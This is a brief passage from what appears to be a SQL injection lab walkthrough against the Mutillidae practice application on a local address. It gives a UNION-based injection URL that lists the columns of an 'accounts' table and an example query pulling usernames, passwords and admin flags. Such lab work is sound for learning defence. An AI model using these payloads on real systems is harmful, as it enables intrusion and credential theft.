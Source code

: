 ![serverside](./img8/24.png)



The column names of the accounts is displayed below for the following url:

Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.203.1/mutillidae/index.php?page=user-info.php&username=thiru2%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details

## OUTPUT

![serverside](./img8/25.png)
